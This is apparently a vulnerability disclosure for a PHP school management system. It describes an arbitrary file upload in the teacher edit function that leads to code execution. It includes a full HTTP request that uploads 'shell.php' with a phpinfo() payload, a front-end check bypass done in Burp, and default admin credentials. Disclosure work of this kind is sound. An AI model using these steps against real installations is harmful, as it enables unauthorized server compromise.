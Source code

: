 # Advanced School Management System v1.0 by itsourcecode.com has arbitrary code execution (RCE)

vendor: https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

Vulnerability url: ip/school/view/all_teacher.php(RCE vulnerability exists in "edit" function of Ip/School/view/all_teacher.php)

Loophole location：There is an arbitrary file upload vulnerability (RCE) in the "edit" function file picture upload point of the TEACHER module in the background management system. You can change the "php" suffix of "shell.php" to "png" to bypass the front-end detection, and then modify the "png" back to the original "php" by grabbing the Burp package. The "shell.php" file can be uploaded successfully after putting back the request packet.

Super Admin account password: suarez081119@gmail.com/12345

Request package for file upload：

```sql
POST /school/index.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/school/view/all_teacher.php
Cookie: PHPSESSID=kh42r202aj35u61brcutn42s96
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------12765172874523
Content-Length: 1148

-----------------------------12765172874523
Content-Disposition: form-data; name="full_name"

Teacher 6
-----------------------------12765172874523
Content-Disposition: form-data; name="i_name"

Teacher 6
-----------------------------12765172874523
Content-Disposition: form-data; name="address"

School
-----------------------------12765172874523
Content-Disposition: form-data; name="gender"

Male
-----------------------------12765172874523
Content-Disposition: form-data; name="phone"

666-666-6666
-----------------------------12765172874523
Content-Disposition: form-data; name="email"

t6@gmail.com
-----------------------------12765172874523
Content-Disposition: form-data; name="fileToUpload"; filename="shell.php"
Content-Type: image/jpeg

JFJF
<?php phpinfo();?>
-----------------------------12765172874523
Content-Disposition: form-data; name="c_page"

1
-----------------------------12765172874523
Content-Disposition: form-data; name="id"

15
-----------------------------12765172874523
Content-Disposition: form-data; name="do"

update_teacher
-----------------------------12765172874523--
```

The files will be uploaded to this directory \school\uploads\
![image](https://user-images.githubusercontent.com/54017627/171858116-11015cc9-cf27-48ab-a4f6-844a1d8960c8.png)


We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/171858089-10417b92-cad0-4cc9-9552-598e09ce15f3.png)

